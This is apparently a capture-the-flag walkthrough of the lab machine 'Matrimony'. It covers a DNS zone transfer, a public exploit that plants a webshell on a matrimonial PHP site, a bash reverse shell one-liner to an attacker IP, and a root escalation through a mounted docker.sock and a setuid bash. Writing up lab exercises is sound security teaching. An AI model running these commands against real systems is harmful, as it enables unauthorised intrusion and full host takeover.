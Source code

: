 # Matrimony

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 14:46 +08
Nmap scan report for 192.168.201.196
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
53/tcp    open     domain
80/tcp    open     http
```

DNS is open, so we likely need to find a domain name somewhere.

### DNS Enum

Port 80 just shows us a static site:

<figure><img src="../../../.gitbook/assets/image (2) (8).png" alt=""><figcaption></figcaption></figure>

There wasn't anything interesting about this site, so I went back to DNS. Similar to HTB, some machines from PGP tend to have domain names we just enter into our `/etc/hosts` file. I entered a few like `matrimony.pg`, `matrimony.offsec` and `matrimony.off`.

Then, I tested each domain with `dig` to see which exists. `matrimony.off` reveals the most information:

```
$ dig axfr @192.168.201.196 matrimony.off

; <<>> DiG 9.18.12-1-Debian <<>> axfr @192.168.201.196 matrimony.off
; (1 server found)
;; global options: +cmd
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
matrimony.off.          604800  IN      NS      matrimony.off.
matrimony.off.          604800  IN      A       127.0.0.1
matrimony.off.          604800  IN      AAAA    ::1
prod99.matrimony.off.   604800  IN      CNAME   matrimony.off.
matrimony.off.          604800  IN      SOA     matrimony.off. root.matrimony.off. 4 604800 86400 2419200 604800
;; Query time: 164 msec
;; SERVER: 192.168.201.196#53(192.168.201.196) (TCP)
;; WHEN: Sat Jul 15 14:53:15 +08 2023
;; XFR size: 6 records (messages 1, bytes 226)
```

It also finds another subdomain at `prod99`.&#x20;

### Matrimonial Website --> RCE

The `prod99` domain shows us this marriage website:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

I created an account on the website and found that it runs on PHP. I checked around for exploits for 'matrim':

```
$ searchsploit matrim
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
2DayBiz Matrimonial Script - 'smartresult.php' SQL Injecti | php/webapps/14073.txt
2DayBiz Matrimonial Script - SQL Injection                 | php/webapps/14008.txt
2DayBiz Matrimonial Script - SQL Injection / Cross-Site Sc | php/webapps/14047.txt
Advanced Matrimonial Script 2.0.3 - SQL Injection          | php/webapps/41521.txt
Entrepreneur Matrimonial Script - Authentication Bypass    | php/webapps/41046.txt
Hindu Matrimonial Script - Authentication Bypass           | php/webapps/41044.txt
i-Net Solution Matrimonial Script 2.0.3 - 'alert.php' Cros | php/webapps/34252.txt
Matri4Web Matrimony Website Script - Multiple SQL Injectio | php/webapps/46591.txt
Matrimonial Script - SQL Injection                         | php/webapps/42545.txt
Matrimonial Script 2.7 - Authentication Bypass             | php/webapps/42566.txt
Matrimonial Website Script 1.0.2 - SQL Injection           | php/webapps/40416.txt
Matrimonial Website Script 2.1.6 - 'uid' SQL Injection     | php/webapps/43965.txt
Matrimony Script - Cross-Site Request Forgery              | php/webapps/10517.txt
Matrimony Script 2.7 - SQL Injection                       | php/webapps/42496.txt
Multireligion Responsive Matrimonial 4.7.2 - 'succid' SQL  | php/webapps/43299.txt
Multireligion Responsive Matrimonial Script 4.7.1 - SQL In | php/webapps/41530.txt
Muslim Matrimonial Script 3.02 - 'succid' SQL Injection    | php/webapps/43310.txt
Online Matrimonial Project 1.0 - Authenticated Remote Code | php/webapps/49183.py
PHP Matrimonial Script 3.0 - SQL Injection                 | php/webapps/41525.txt
Responsive Matrimonial Script 4.0.1 - SQL Injection        | php/webapps/41533.txt
Zeeways Matrimony CMS - SQL Injection                      | php/webapps/46603.txt
----------------------------------------------------------- ---------------------------------
```

Tons of exploits, and there is one script out of all of them. I tried that first, and it worked:

```
$ python2 49183.py http://prod99.matrimony.off/ test123 test123
___  ___              _  _          _      ______  _____  _____
|  \/  |             (_)| |        | |     | ___ \/  __ \|  ___|                             
| .  . |  __ _  _ __  _ | |_  __ _ | |     | |_/ /| /  \/| |__                               
| |\/| | / _` || '__|| || __|/ _` || |     |    / | |    |  __|                              
| |  | || (_| || |   | || |_| (_| || |     | |\ \ | \__/\| |___                              
\_|  |_/ \__,_||_|   |_| \__|\__,_||_|     \_| \_| \____/\____/                              
                                                                                             
[+] logging...                                                                               
[+] Successfully retrieved user [ID].
[+] Successfully uploaded.
[+] Connecting to webshell...
[+] Successfully connected to webshell.
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam)
```

From here, we can easily get a reverse shell:

```
$ bash -c 'bash -i >& /dev/tcp/192.168.45.189/21 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (11) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker.Sock --> Root

If we check `ifconfig`, we can find some Docker instanceis running since the IP of this machine is 172.17.0.1:

```
sam@matrimony:/home/sam$ ifconfig                                                            
docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                                
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255                       
        ether 02:42:58:23:b6:06  txqueuelen 0  (Ethernet)
        RX packets 19  bytes 4172 (4.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19  bytes 4427 (4.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We can `ssh` into 172.17.0.2 as `root`:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

We can find the `docker.sock` file in both machines:

```
root@9079b6b2d2fb:/tmp# find / -name docker.sock 2>/dev/null
/run/docker.sock
```

This machine doesn't have `docker`, so we can download the binary itself from our machine. This takes a while. When it's done, we can check the images present:

```
root@9079b6b2d2fb:/tmp# ./docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
<none>       <none>    73aebf20ceb1   14 months ago   223MB
ubuntu       latest    3f4714ee068a   14 months ago   77.8MB
```

We can mount back onto the first image:

```
./docker -H unix:///run/docker.sock run -it -v /:/mnt 73aebf20ceb1 bash
```

<figure><img src="../../../.gitbook/assets/image (3) (5).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, simply run `chmod u+s /mnt/bin/bash`. Exit the docker container back onto the host machine and run `bash -p`:

<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
